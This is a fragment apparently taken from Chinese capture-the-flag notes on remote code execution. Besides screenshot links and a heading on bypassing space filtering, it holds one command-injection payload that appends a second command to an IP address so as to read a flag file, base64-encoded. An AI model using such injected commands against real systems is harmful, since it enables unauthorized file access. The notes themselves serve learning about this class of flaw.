 ```
127.0.0.1;less flag_291341651428000.php|base64
```

![image-20240817145844864](远程代码执行/image-20240817145844864.png)	

### 过滤空格

![image-20240817145943988](远程代码执行/image-20240817145943988.png)	
